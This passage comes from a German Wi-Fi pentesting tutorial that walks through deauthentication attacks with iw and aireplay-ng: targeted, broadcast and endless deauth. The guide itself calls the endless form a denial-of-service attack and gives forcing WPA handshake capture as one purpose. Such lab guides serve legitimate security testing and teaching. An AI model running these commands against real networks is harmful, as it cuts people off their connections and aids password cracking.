 ```bash
# Stoppen mit Ctrl+C
```

#### Schritt 2: Auf Target-Kanal fokussieren

```bash
# Setze Interface auf spezifischen Kanal
iw dev wlan0 set channel 6

# Verifizieren
iw dev wlan0 info | grep channel
```

#### Schritt 3: Gezielter Deauth (Einzelner Client)

```bash
# Sende 10 Deauth-Pakete an spezifischen Client
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0

# Output sollte zeigen:
# 12:34:56  Waiting for beacon frame (BSSID: AA:BB:CC:DD:EE:FF) on channel 6
# 12:34:56  Sending 64 directed DeAuth...
# 12:34:57  Sending 64 directed DeAuth...
```

**Was passiert:**
- Client wird vom AP getrennt
- Client verbindet automatisch neu (innerhalb Sekunden)
- 4-Way-Handshake wird ausgetauscht

#### Schritt 4: Broadcast Deauth (Alle Clients)

```bash
# Ohne -c Parameter = Broadcast an alle Clients
aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF wlan0

# VORSICHT: Trennt ALLE Geräte im Netzwerk!
```

**Use Cases:**
- Handshake capturing forcieren
- DoS-Test (wie reagiert Netzwerk?)
- Client-Reaktionszeit testen

#### Schritt 5: Kontinuierlicher Deauth (DoS)

```bash
# 0 = endlos, bis Ctrl+C
aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan0

# Stoppen: Ctrl+C
```

**⚠️ Warnung:**
- Das ist ein **Denial of Service Attack**
- Unterbricht Internet für alle
- Nur im eigenen Test-Netzwerk!
- Kann Router/AP unter Last setzen
